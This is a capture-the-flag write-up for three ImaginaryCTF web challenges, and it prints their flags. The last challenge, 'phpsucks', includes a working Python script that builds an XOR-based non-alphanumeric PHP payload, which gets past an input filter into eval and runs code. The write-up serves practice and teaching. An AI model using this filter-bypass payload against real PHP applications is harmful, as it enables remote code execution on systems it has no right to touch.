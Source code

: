 # Replacement

## Description

Red flags and fake flags form an equivalence class.

## Attachments

`ictf:f2e8b632f71c2cab`
`http://puzzler7.imaginaryctf.org:4003/`

## Solution

After logging in with the given creds, we see that there is a fake flag.
Checking the source code shows a directory `/totallynottheflag`.

When we try to access the directory, the flag is being showed for a sec and being replaced by the fake flag.

So disable the javascript and check the source code.
You can use [Burpsuite](https://portswigger.net/burp) also.

## flag 

`ictf{gr333333333333333n_flags_are_g00d_tho}`

<br>

# Backtracking

## Description

Look at how far you've come

## Attachments

`http://puzzler7.imaginaryctf.org:4007/`
`ictf:24dbcbffb8208024`

## Solution

Checking the source code shows us an obfuscated javascript code.
I have used this [deobfuscator](https://lelinhtinh.github.io/de4js/) which showed [history.pushState](https://www.javascripttutorial.net/web-apis/javascript-history-pushstate/).

This function adds the provided url to the history stack.
There appears to a flag being added to the history stack, So simply clicking back button gives us the flag.

## flag

`ictf{it's_me_the_friend_you_made_along_the_way}`

<br>

# phpsucks

## Description

I have an eval but with a robust user input validation.

## Attachments

`http://puzzler7.imaginaryctf.org:4011/`

## Solution

Going over to the provided link shows a php code which is taking input from user by filtering alphanumeric characters and passing it to the eval.

The flag can be viewed if we can execute `secret_function()`.

The following script passes xor between two strings as input.

script

```
import requests
from Crypto.Util.strxor import strxor
import string

fun = "secret_function"
lis = """'_.@/{}()=*,-:<>?["]|"""
nope = string.ascii_lowercase + string.ascii_uppercase + string.digits
final = ""
final2 = ""

for let in fun:
    for i in lis:
        s = strxor(let.encode(), i.encode()).decode()
        if s not in nope and s in lis:
            final += s
            final2 += i
            break

payload = f"$_='{final}'^'{final2}';$_();"

url = f"http://puzzler7.imaginaryctf.org:4011/?cmd={payload}"
req = requests.get(url)
print(req.text[req.text.find('ictf'):])
```

## flag 

`ictf{th3r3_4r3_n0_l4ngu4g3_l1k3_Php}`

<br>

